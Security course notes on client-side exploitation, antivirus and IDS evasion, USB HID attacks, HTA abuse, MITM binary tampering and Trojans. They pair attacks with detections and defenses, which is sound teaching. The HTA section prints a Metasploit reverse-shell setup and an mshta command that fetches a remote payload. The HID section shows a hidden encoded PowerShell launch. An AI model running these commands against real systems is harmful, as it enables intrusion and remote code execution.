# Unit - 3
:::info[TITLE]
## Client-Side Exploitation & Evasion Concepts
:::

## 1. Client-Side Attack Surface

Client-side exploitation targets vulnerabilities in software, user endpoints, or peripheral devices that initiate outbound communication with external systems or parse untrusted external input.



### 1.1 Core Concept of Client-Side Exploitation

#### 1.1.1 Shift from Perimeter to Endpoint
As enterprise network perimeters are hardened with stateful firewalls, Network Address Translation (NAT), and intrusion prevention systems, directly reaching listening server daemons becomes increasingly difficult. Client-side attacks shift the vector of compromise from externally exposed services to internal workstations by exploiting the software users interact with daily.

#### 1.1.2 Targeted Client Applications
Client-side attacks target software applications that process untrusted content:
- **Web Browsers:** Chrome, Firefox, Edge, Safari (rendering engines, JavaScript JIT compilers).
- **Document Readers & Viewers:** Adobe Acrobat Reader, Foxit Reader (PDF parsers).
- **Productivity Suites:** Microsoft Word, Excel, PowerPoint (VBA macros, OLE objects, formula handlers).
- **Email Clients:** Microsoft Outlook, Thunderbird (preview handlers, message decoders).
- **Operating System Subsystems:** URI protocol handlers, shell extensions, font engines.
- **Mobile Applications:** Android APK packages, iOS applications.
- **Hardware & Peripherals:** USB interfaces, Human Interface Devices (HID), removable storage media.

### 1.2 Server-Side vs. Client-Side Exploitation

| Comparison Dimension | Server-Side Exploitation | Client-Side Exploitation |
|---|---|---|
| **Primary Target** | Listening server daemon / network service | User workstation, client software, or mobile device |
| **Reachability** | Remotely accessible over an open network port | Behind firewalls; requires outbound communication or local media |
| **User Interaction** | Zero user interaction required | Often requires human action (clicking, opening, downloading) |
| **Attack Surface** | Exposed listening network service (e.g., SMB, Apache) | File parsers, office applications, browsers, USB ports |
| **Core Vulnerability** | Flaws in network protocol parsing or server code | Flaws in file format parsing, macro logic, or user trust |
| **Typical Examples** | Exploiting MS17-010 (SMB) or unpatched SSH daemons | Delivering a weaponized PDF, macro-enabled Word doc, or BadUSB |

:::tip[EXAM TIP: CORE PARADIGM SHIFT]
**Server-side exploitation targets the service; client-side exploitation targets the interaction between the user, the application, and the content.**
:::

### 1.3 Breakdown of the Client-Side Attack Surface



## 2. Client-Side Exploitation Methodology

Client-side attacks follow a multi-stage attack lifecycle that incorporates social engineering, content delivery, and user interaction.



### 2.1 The Client-Side Attack Chain

#### 2.1.1 The Human Interaction Factor
The critical distinction in client-side operations is the **human interaction point**. An exploit payload cannot trigger until the user performs an action—opening an email attachment, visiting a watering-hole webpage, enabling macros, or plugging in a USB device. Threat actors rely heavily on social engineering pretexts to encourage user execution.

#### 2.1.2 Delivery Mechanisms
- **Email Attachments:** Sending malicious `.docx`, `.pdf`, `.hta`, or `.iso` archives directly to employee inboxes.
- **Compromised Websites (Watering Hole):** Compromising legitimate websites frequented by target personnel to deliver drive-by exploits.
- **Downloaded Executables:** Tricking users into downloading backdoored installers or software updates.
- **Physical USB & HID Devices:** Dropping programmed microcontrollers disguised as standard flash drives in target office areas.
- **Mobile Application Stores:** Sideloading trojanized APK packages onto corporate mobile devices.
- **Tampered Network Streams:** Intercepting unencrypted software downloads in-transit via Man-in-the-Middle (MITM) positioning.

## 3. Antivirus and Evasion Concepts

Endpoint protection software serves as the first line of defense against client-side payloads, combining static file inspections with dynamic runtime monitoring.

### 3.1 Antivirus Detection Paradigms



#### 3.1.1 Traditional vs. Modern Detection
- **Traditional Antivirus (AV):** Relies on static signature matching, file hashing (MD5, SHA-256), and known byte patterns. It is effective against known malware strains but fails against novel, modified, or obfuscated payloads.
- **Modern Endpoint Detection & Response (EDR):** Inspects runtime process behavior, child process trees, memory permissions, dynamic API hooks, machine learning models, and real-time cloud threat intelligence.

### 3.2 Static vs. Behavioral Detection Matrix

| Inspection Dimension | Static Detection | Behavioral / Dynamic Detection |
|---|---|---|
| **Inspection Medium** | File image residing on physical disk storage | Active process executing in system RAM |
| **Primary Artifacts** | Cryptographic hashes, ASCII/Unicode strings | Process API calls, system modifications |
| **Structural Analysis** | Portable Executable (PE) headers, section names | Parent-child process lineage (`cmd.exe` spawning from `winword.exe`) |
| **Library Evaluation** | Import Address Table (IAT), linked DLLs | Network sockets, DNS requests, named pipes |
| **Evasion Vulnerability**| Bypassed via encoding, encryption, packing | Bypassed via API unhooking, sleep cycling, LotL binaries |

### 3.3 Antivirus Evasion Techniques

Evasion techniques modify the structure or execution profile of a payload to bypass endpoint detection mechanisms:



:::warning[CORE EVASION LESSON]
**Changing the appearance of malware does not remove its malicious behavior.** While obfuscation and encryption evade static signature scanners, the moment the payload executes API calls in memory, behavioral engines and EDR sensors can detect the activity.
:::

### 3.4 Why Detection Can Fail & Defense-in-Depth

#### 3.4.1 Primary Failure Vectors
Security controls can fail to identify client-side compromises due to:
- **Zero-Day Exploits:** Vulnerabilities that vendors have not yet patched or assigned signatures to.
- **Ambiguous Behavior:** Malicious activity that closely resembles legitimate administrative tasks (e.g., PowerShell running system scripts).
- **Incomplete Telemetry:** Endpoints that lack logging sensors, drop log packets, or run misconfigured auditing policies.
- **Brittle Detection Rules:** Signatures focused narrowly on static file hashes rather than underlying behavior.

#### 3.4.2 The Defense-in-Depth Model
Defenders apply overlapping layers of security so that no single failure compromises the network:



## 4. IDS/IPS Evasion Concepts

Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) inspect network traffic traversing enterprise perimeters.

### 4.1 IDS vs. IPS Architectural Comparison



| Dimension | Intrusion Detection System (IDS) | Intrusion Prevention System (IPS) |
|---|---|---|
| **Network Position** | Passive, out-of-band (via SPAN/TAP ports) | Active, in-line between network segments |
| **Primary Action** | Detects suspicious signatures and generates alerts | Detects and actively blocks or terminates sessions |
| **Operational Risk** | Zero risk of dropping legitimate business traffic | Risk of dropping valid traffic on false positives |
| **Intervention** | Does not alter network packets directly | Drops packets, sends TCP RST, or updates firewalls |

### 4.2 Network Evasion Mechanics

Attackers alter the structure and timing of network packets to bypass signature-based network filters:
- **Traffic Fragmentation:** Splits exploit payloads across multiple small IP fragments or TCP segments, preventing sensors from assembling full signatures.
- **Payload Encoding:** Obfuscates shellcode using Base64, URL encoding, or custom byte transformations.
- **Protocol Manipulation:** Uses unusual TCP flag combinations (e.g., overlapping sequence numbers) that network sensors assemble differently than target operating systems.
- **Timing & Rate Throttling:** Transmits payload bytes slowly over extended intervals to evade sliding-window inspection buffers.
- **Encrypted Channels:** Tunnels commands over SSL/TLS (HTTPS) to prevent inspection by appliances that lack TLS decryption capabilities.

:::note[DEFENSIVE DETECTION RULE]
Effective network defense requires inspecting both **individual packet payloads** and **broader communication behavior** (e.g., flow volume, beaconing regularity, TLS handshake fingerprints).
:::

## 5. Human Interface Device (HID) Attacks

Human Interface Device (HID) attacks abuse the implicit trust operating systems place in connected physical input hardware.



### 5.1 The HID Attack Mechanism

#### 5.1.1 Implicit Operating System Trust
Operating systems are designed to accept input from USB keyboards immediately without requiring administrative authentication or driver verification. A malicious USB device can present the USB Vendor and Product ID (VID/PID) of a standard keyboard, prompting the OS to trust and execute its inputs immediately.

#### 5.1.2 Attack Hardware Profiles
- **USB Rubber Ducky:** Hardware device that executes pre-compiled DuckyScript keystroke sequences.
- **BadUSB:** Reprogrammed USB thumb drive firmware that emulates an HID keyboard while retaining storage functionality.
- **Development Boards:** Programmable microcontrollers (Raspberry Pi Pico, Teensy, Arduino Pro Micro) configured to simulate keyboard inputs.

### 5.2 The HID Attack Lifecycle & Risks

#### 5.2.1 Operational Attack Chain
1. **Physical Access:** The attacker inserts the device directly or relies on social engineering (e.g., leaving branded USB drives in parking lots).
2. **Device Enumeration:** The host recognizes the peripheral as a standard HID keyboard.
3. **Automated Input Injection:** The device types out pre-programmed keystrokes at hundreds of words per minute (e.g., pressing `Win + R`, typing `powershell.exe -w hidden -enc ...`, and hitting Enter).
4. **Execution & Network Callout:** The operating system runs the injected commands, downloading second-stage payloads or establishing an immediate reverse shell.

#### 5.2.2 Security Risks & Potential Impact
- Bypasses traditional network firewalls by initiating outbound connections from an internal host.
- Executes within the security context of the actively logged-in desktop user.
- Capable of altering local security policies, extracting browser credentials, or deploying persistent backdoors within seconds.

### 5.3 Detection and Defensive Controls



#### 5.3.1 Key Indicators of Compromise (IoCs)
- Device registration events for newly connected keyboards on systems with existing input hardware.
- Typing speeds exceeding human physical limits (hundreds of words per minute).
- Sensitive processes (`cmd.exe`, `powershell.exe`) spawning within milliseconds of a USB connection event.

#### 5.3.2 Defensive Countermeasures
- **Endpoint Device Control:** Group Policies or EDR rules that block unauthorized USB device classes or vendor IDs.
- **Application Allowlisting:** Solutions like AppLocker or WDAC that prevent unauthorized script interpreters from launching.
- **Physical Security:** Securing exposed USB ports in public areas and workstations.
- **User Awareness Training:** Educating staff on the risks of plugging in untrusted physical devices.

## 6. HTA (HTML Application) Attacks

HTML Applications (HTAs) allow attackers to execute scripts with full system privileges outside the browser sandbox.



### 6.1 HTA Fundamentals

#### 6.1.1 Architectural Capabilities
Introduced by Microsoft in Internet Explorer 5, HTAs are designed to run web-based administrative utilities locally:
- **File Extension:** `.hta`.
- **Execution Host:** `C:\Windows\System32\mshta.exe`.
- **Security Context:** Unlike web pages running inside a browser, HTAs execute as full desktop applications. They are **not restricted by the browser security sandbox**, cross-origin policies, or standard iframe protections.
- **ActiveX Support:** HTAs can instantiate ActiveX objects such as `WScript.Shell`, `Scripting.FileSystemObject`, and `ADODB.Stream`, granting direct access to system commands and local files.

### 6.2 HTA Attack Execution

#### 6.2.1 Metasploit HTA Modules
Metasploit includes built-in modules to automate HTA attacks:
```bash
# Selecting the HTA web delivery exploit module
msf6 > use exploit/windows/misc/hta_server

# Setting the target payload
msf6 exploit(windows/misc/hta_server) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > set LHOST 192.168.1.50
msf6 exploit(windows/misc/hta_server) > set LPORT 4444

# Launching the web delivery listener
msf6 exploit(windows/misc/hta_server) > run
```

#### 6.2.2 Living-off-the-Land (LotL) Execution
Threat actors can launch HTAs directly through legitimate system utilities without saving `.hta` files to disk:
```powershell
# Executing remote HTA payloads directly via mshta.exe
mshta.exe http://192.168.1.50/payload.hta
```

### 6.3 HTA Detection and DFIR Telemetry



- **Process Hierarchy (Sysmon Event ID 1):** In standard enterprise environments, `mshta.exe` rarely spawns interactive command interpreters like `powershell.exe` or `cmd.exe`.
- **Command-Line Inspection:** Monitoring command lines for `mshta.exe` loading files from remote HTTP addresses.
- **Network Sockets (Sysmon Event ID 3):** Tracking `mshta.exe` initiating outbound TCP connections to external IP addresses.

## 7. MITM-Based Executable Tampering

Man-in-the-Middle (MITM) attacks allow adversaries to intercept and modify software files while they are in transit across unencrypted network connections.



### 7.1 Attack Mechanics

#### 7.1.1 Traffic Interception
The attacker uses techniques like ARP poisoning, Rogue DHCP, or DNS spoofing to position themselves between the target workstation and the internet.

#### 7.1.2 Binary Tampering in Transit
When the user downloads an executable over plain HTTP, the attacker intercepts the download stream and injects malicious shellcode or backdoors into the binary before forwarding it to the client. The application installs normally, but silently executes the embedded payload in the background.

### 7.2 The Role of HTTPS and Authenticated TLS

```mermaid
flowchart TD
  subgraph InsecureTransport ["Unencrypted HTTP (Vulnerable)"]
    C1["Client"] <-->|"Cleartext Stream (Subject to MITM Tampering)"| Mitm["Attacker"]
    Mitm <-->|"Cleartext Stream"| S1["Server"]
  end

  subgraph SecureTransport ["Authenticated HTTPS / TLS (Protected)"]
    C2["Client"] <===="End-to-End Cryptographic Tunnel (Confidentiality & Integrity)"====> S2["Server (CA Verified)"]
  end
```

:::important[TLS SECURITY PRINCIPLE]
**Encryption protects more than secrecy—it prevents undetected modification in transit.** Authenticated TLS ensures:
1. **Confidentiality:** Eavesdroppers cannot view transmitted data.
2. **Integrity:** Message Authentication Codes (HMAC) ensure data cannot be altered in transit without invalidating the connection.
3. **Authentication:** Cryptographic certificates verify the identity of the software distributor.
:::

### 7.3 Executable Integrity Controls

To protect against binary tampering, enterprise environments rely on cryptographic verification controls:
- **Digital Code Signing (Microsoft Authenticode):** Executables signed with verified developer certificates fail validation checks if modified by even a single byte.
- **Cryptographic Hash Verification:** Verifying downloaded installers against published SHA-256 hashes.
- **Application Allowlisting:** Enforcing policies (WDAC, AppLocker) that block unsigned or unapproved executables.

## 8. Trojan Concepts

A Trojan is software that appears legitimate or useful while secretly performing unauthorized or malicious actions.



### 8.1 Foundational Trojan Principles

#### 8.1.1 Deception Over Exploitation
Unlike software exploits that hijack process execution through memory bugs, Trojans rely on **social engineering and user trust**. The user intentionally runs the software, granting it access to their user profile and security context.

#### 8.1.2 Dual-Action Architecture
A Trojan typically embeds malicious functionality inside an otherwise working application. The user sees the expected software behavior (such as a text editor or utility opening), while the embedded backdoor silently establishes persistence or connects back to a C2 listener.

### 8.2 The Trojan Attack Chain



:::tip[EXAM TIP: SECURITY BOUNDARY LESSON]
**Trust in the application is often the first security boundary being attacked.** If an adversary tricks a user into running malicious code voluntarily, perimeter firewalls and traditional network defenses cannot prevent compromise.
:::

## 9. Linux Trojan Analysis

Linux systems are common targets for backdoored utilities, trojanized packages, and poisoned open-source libraries.



### 9.1 Linux Trojan Architecture

In Linux environments, trojanized software typically packages malicious logic into Executable and Linkable Format (ELF) binaries or Python/Shell wrapper scripts:
- **Forking Background Daemons:** The binary immediately calls `fork()` to spawn an independent background process that handles C2 operations, while the parent process returns normal terminal output.
- **Covert Network Communications:** Using raw sockets, HTTP requests, or DNS tunnels to transmit system metadata back to the attacker.
- **Credential Harvesting:** Intercepting passwords entered via `sudo` or reading sensitive files in `/home/user/.ssh/`.

### 9.2 The 8-Question Forensic Investigation Framework

When analyzing a suspected Linux Trojan, forensic analysts follow a structured investigative workflow:

| Investigation Step | Core Forensic Question | Recommended Analysis Tools & Commands |
|---|---|---|
| **1. File Identity** | What is the file type and true architecture? | `file <filename>`, `readelf -h <filename>` |
| **2. Origin & Lineage** | Who created the file and how did it arrive? | Inspect web server logs, shell history (`.bash_history`), package manager logs |
| **3. Code Integrity** | Is the binary signed or verified against package checksums? | `dpkg -V <pkg>`, `rpm -V <pkg>`, `sha256sum <filename>` |
| **4. Process Activity** | What child processes or threads does it spawn? | `ps auxf`, `pstree`, `strace -f -e trace=process` |
